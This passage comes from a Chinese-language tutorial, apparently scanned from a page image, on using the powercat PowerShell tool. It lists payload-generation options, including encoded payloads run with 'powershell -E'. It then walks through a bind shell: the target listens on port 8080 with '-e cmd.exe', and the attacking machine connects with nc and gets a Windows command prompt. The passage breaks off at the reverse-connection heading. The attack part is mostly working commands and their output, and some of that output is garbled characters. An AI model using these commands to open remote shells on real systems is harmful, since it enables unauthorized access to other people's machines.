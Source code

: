 ```powershell
  -rep            Repeater. powercat will continually restart after it is disconnected.
                  Used for setting up a persistent server.

  -g              Generate Payload.  Returns a script as a string which will execute the
                  powercat with the options you have specified. -i, -d, and -rep will not
                  be incorporated.

  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>

  -h              Print this help message.

```





### 2. 使用

#### 1. 正向连接目标

##### 目标

```powershell
PS C:\Users\Fun\Desktop> powercat -l -p 8080 -e cmd.exe -v
详细信息: Set Stream 1: TCP
详细信息: Set Stream 2: Process
详细信息: Setting up Stream 1...
详细信息: Listening on [0.0.0.0] (port 8080)
```

* `-l` ：监听
* `-p`：端口
* `-e`：指定命令执行：一般cmd
* `-v`：显示详细信息



##### 攻击机

```powershell
root@For-Fun:~# nc 192.168.83.182 8080 -vv
192.168.83.182: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.83.182] 8080 (http-alt) open
Microsoft Windows [▒汾 6.1.7601]
▒▒Ȩ▒▒▒▒ (c) 2009 Microsoft Corporation▒▒▒▒▒▒▒▒▒▒Ȩ▒▒

C:\Windows\system32>ipconfig
ipconfig
```

* 监听目标的IP,端口，然后显示详细信息



#### 2. 目标反向连接攻击机
